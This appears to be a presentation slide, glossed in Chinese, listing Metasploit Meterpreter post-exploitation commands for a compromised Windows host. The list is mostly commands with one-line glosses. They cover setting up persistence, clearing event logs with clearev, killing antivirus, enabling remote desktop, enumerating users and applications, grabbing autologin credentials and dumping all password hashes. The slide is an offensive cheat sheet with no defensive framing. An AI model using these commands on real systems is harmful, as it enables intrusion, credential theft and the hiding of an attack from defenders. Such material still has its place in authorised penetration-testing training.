

# msf-exploit-meterpreter-后渗透
run persistence：建立持久性会话。
clearev：清除日志。
run post/windows/manage/migrate：自动进程迁移。
run post/windows/gather/checkvm：查看目标主机是否运行在虚拟机上。
run post/windows/manage/killav：关闭杀毒软件。
run post/windows/manage/enable_rdp：开启远程桌面服务。
run post/windows/manage/autoroute：查看路由信息。
run post/windows/gather/enum_logged_on_users：列举当前登录的用户。
run post/windows/gather/enum_applications：列举应用程序。
run windows/gather/credentials/windows_autologin：抓取自动登录的用户名和密码。
run windows/gather/smart_hashdump：dump出所有用户的hash。
81